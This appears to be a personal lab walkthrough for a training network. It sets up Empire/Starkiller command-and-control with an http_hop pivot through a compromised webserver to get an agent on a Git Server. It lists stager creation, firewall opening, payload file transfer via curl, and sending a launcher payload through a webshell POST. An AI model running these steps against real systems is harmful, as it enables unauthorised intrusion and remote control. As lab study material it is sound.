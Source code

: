 Time to put this all into practice!

You should already have a `http_hop` listener started in either Empire or Starkiller from the last task. If you don't, take this opportunity to start one before continuing.

With the listener started there are two things we must do before we can get an agent back from the Git Server:-

- We must generate an appropriate stager for the target
- We must put the `http_hop` files into position on .200, and start a webserver to serve the files on the port we selected during the listener creation. This server must be able to execute PHP, so a PHP Debug server is ideal.


---

Let's start with generating a stager. For this we will use the `multi/launcher` stager. We already covered how to create stagers back in task 26, so you should be able to do this relatively unguided. The only option needing to be set here is the "Listener" option, which needs set to the name of the `http_hop` listener we created in the previous task:

## Empire client

Start Empire Client:

```
$ powershell-empire client
```


![[Git Server-20250103140519820.webp]]

## Starkiller

![[Git Server-20250103140607340.webp]]

If using the Empire CLI, you will be presented with a payload to copy and paste into the target's command line:

![[Git Server-20250103140856420.webp]]

If using Starkiller you can copy the payload to your clipboard by clicking on the copy button of the Actions menu for the stager in the main Stagers menu:

![[Git Server-20250103140929490.webp]]

Whichever method you chose, save the provided command somewhere and _do not_ execute it yet. We will need it once we have set up the hop files on the jumpserver.


---
## Jumpserver set up

Now let's get that jumpserver set up!

1. First of all, in the /tmp directory of the compromised webserver, create and enter a directory called `hop-USERNAME`. e.g.:

	![[Git Server-20250103141203892.webp]]

2. Transfer the contents from the `/tmp/http_hop` (or whatever you called it) directory across to this directory on the target server. A good way to do this is by zipping up the contents of the directory (`cd /tmp/http_hop && zip -r hop.zip *`), then transferring the zipfile across using one of the methods previously shown. For example, doing this with a Python HTTP server :
	![[Git Server-20250103141930263.webp]]

3. We can then unzip the zipfile on the webserver (i.e. `unzip hop.zip`):

	 ![[Git Server-20250103142317960.webp]]

> [!Note]
The output of `ls` must match up with the screenshot -- i.e. there should be a `news.php` file in your current directory, with `admin/` and_ `login/` as subdirectories

## Open the port in the firewall

Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 47000/tcp`

## Serving the files

We now need to actually serve the files on the port we chose when generating the http_hop listener (task 28). Fortunately we already know that this server has PHP installed as it serves as the backend to the main website. This means that we can use the PHP development webserver to serve our files! The syntax for this is as follows:  
`php -S 0.0.0.0:PORT &>/dev/null &`  

e.g:

![[Git Server-20250103142653235.webp]]

As shown in the screenshot, the webserver is now listening in the background on the chosen port 47000.

> [!Note]
> Remember to open up the port in the firewall if you haven't already!

This is a handy trick for when we need to serve PHP files, as our standard Python HTTP webserver is not capable of interpreting the PHP language and so cannot execute the scripts.

We now have everything we need to get this show on the road!


---

# Your job

![[Command & Control Empire Diagram.svg]]



The way this system works is:
- There is a **command server**, usually your Attacking Machine.
- This command server has a listener or number of listeners on it, waiting for connections from your agents. 
- These listeners come in various options but the most used ones are HTTP and *HTTP-Hop* mainly because they can blend into normal day-to-day traffic easier.

**HTTP-Hop**
This is a special listener because it allows you to set up a hop station should you be pivoting around a network. What this essentially does is allows us to take an entry point in the network and make use of it as a “jump” server between our command server and a compromised device that doesn’t have internet connectivity for example:

**Command Server <—–> Web Server <—-> Compromised Machine**

The next part is the **stager**.
- This is a script/command that creates our agent. 
- This comes in a number of forms but *Bash* and *Powershell* are the ones introduced in the Wreath room. 
- Once these stagers are run on your compromised machine they will create an **agent** connection back to your control server. 
- Once connected you will be able to run commands as if you were on the agent through the command server.

| <center>Actions</center>                                                        | <center>Machine</center> | <center>Commands</center>                                                                                             |
| ------------------------------------------------------------------------------- | ------------------------ | --------------------------------------------------------------------------------------------------------------------- |
| Start Empire Server                                                             | Attacking Machine        | `powershell-empire server`                                                                                            |
| Start Empire CLI                                                                | Attacking Machine        | `powershell-empire client`                                                                                            |
| Setup HTTP Listener                                                             | Empire CLI               | `uselistener http`                                                                                                    |
| Create a listener                                                               | Empire CLI               | [[Empire - Listeners]]                                                                                                |
| Setup Stager                                                                    | Empire CLI               | `usestager multi_bash`<br>`set Listener CLIHTTP`<br>`execute`                                                         |
| Open firewall port                                                              | Jump box .200            | `firewall-cmd --zone=public --add-port 47000/tcp`                                                                     |
| Execute stager on target                                                        | Jump box .200            | `echo "import sys,base64,warnings...`                                                                                 |
| Creating hop jump server                                                        | Empire CLI               | `uselistener http_hop`<br>`set Host 10.200.X.200` <br>`set Port 47000`<br>`set RedirectListener CLIHTTP`<br>`execute` |
| Zip and transfer files `/tmp/http_hop` to jump box target                       | Attacking Machine        | `cd /tmp/http_hop && zip -r hop.zip`<br>`sudo python3 -m http.server 80`                                              |
| Download on target                                                              | Jump box .200            | `curl 10.50.X.X/hop.zip -o hop.zip unzip hop.zip`                                                                     |
| **IF YOU ALREADY HAVE DONE ALL THE PREVIOU STEPS DON'T NEED TO REPEAT IT**      |                          |                                                                                                                       |
| Create http_hop stager                                                          | Empire CLI               | `usestager multi_launcher`<br>`set Listener http_hop` <br>`execute`                                                    |
| Setup a PHP Server to host http_hop files                                       | Jump box .200            | `php -S 0.0.0.0:47000`                                                                                                |
| Connect to `git-server` on `.150` and execute `usestager/multi_launcher` agent. | Attacking Machine        | `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=<usestager/multi_launcher payload>"`<br>              |
After completing the given steps, we have an agent from the Git Server in Starkiller.

![[Git Server-20250114152251549.webp]]

**Next step:** [[Empire - Modules]]

